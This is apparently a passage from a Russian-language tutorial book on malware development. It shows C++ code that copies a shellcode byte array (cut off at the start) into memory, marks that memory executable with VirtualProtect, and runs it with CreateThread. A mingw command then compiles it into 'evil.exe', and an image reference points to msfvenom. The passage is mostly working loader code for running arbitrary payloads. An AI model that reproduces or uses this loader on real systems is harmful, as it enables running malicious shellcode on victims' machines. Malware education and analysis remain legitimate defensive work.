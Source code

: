 ```cpp
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, 
  my_payload_len, MEM_COMMIT | MEM_RESERVE, 
  PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, 
  my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE)my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

Это нормально, если вы не понимаете большую часть кода. Я часто буду использовать похожие приемы и фрагменты кода. По мере чтения книги вы будете все больше и больше понимать концепции и фундаментальные вещи.   

Давайте сначала проверим.   

Компиляция:

```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++
-static-libgcc
```

![msfvenom](./images/6/2021-09-18_20-35.png){width="75%"}
